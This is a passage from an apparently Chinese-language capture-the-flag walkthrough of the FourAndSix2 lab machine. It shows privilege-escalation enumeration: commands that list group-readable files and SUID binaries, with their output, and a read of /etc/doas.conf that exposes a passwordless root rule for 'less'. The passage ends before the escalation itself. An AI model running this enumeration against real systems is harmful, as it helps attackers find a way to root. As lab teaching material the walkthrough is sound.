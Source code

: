   ```
        groups: enc
        status: active
pflog0: flags=141<UP,RUNNING,PROMISC> mtu 33136
        index 4 priority 0 llprio 3
        groups: pflog
fourandsix2$ 

```



### 提权

- 查找当前用户所属用户组可以读取哪些文件 > `find / -group user -type f 2>/dev/null`

- ```shell
  fourandsix2$ find / -group user -type f 2>/dev/null           
  /home/user/.ssh/authorized_keys
  /home/user/.Xdefaults
  /home/user/.cshrc
  /home/user/.cvsrc
  /home/user/.login
  /home/user/.mailrc
  /home/user/.profile
  /home/user/storage/backup.7z
  /home/user/storage/qterminal.jjccgs
  /home/user/storage/qterminal.yiCCtm
  /home/user/storage/qterminal.HKZUQB
  /home/user/storage/.xfsm-ICE-BP5281
  /home/user/storage/qterminal.taHRrA
  /home/user/storage/qterminal.hLZsum
  /home/user/storage/qterminal.JNeWkn
  /var/mail/user
  fourandsix2$ 
  ```

- 查找当前用户可操作具有s位文件 > `find / -perm -u=s -type f 2>/dev/null`

- ```shell
  fourandsix2$ find / -perm -u=s -type f 2>/dev/null   
  /usr/bin/chfn
  /usr/bin/chpass
  /usr/bin/chsh
  /usr/bin/doas
  /usr/bin/lpr
  /usr/bin/lprm
  /usr/bin/passwd
  /usr/bin/su
  /usr/libexec/lockspool
  /usr/libexec/ssh-keysign
  /usr/sbin/authpf
  /usr/sbin/authpf-noip
  /usr/sbin/pppd
  /usr/sbin/traceroute
  /usr/sbin/traceroute6
  /sbin/ping
  /sbin/ping6
  /sbin/shutdown
  fourandsix2$ cat /etc/doas.conf                                 
  permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
  permit nopass keepenv root as root
  fourandsix2$ 
  ```
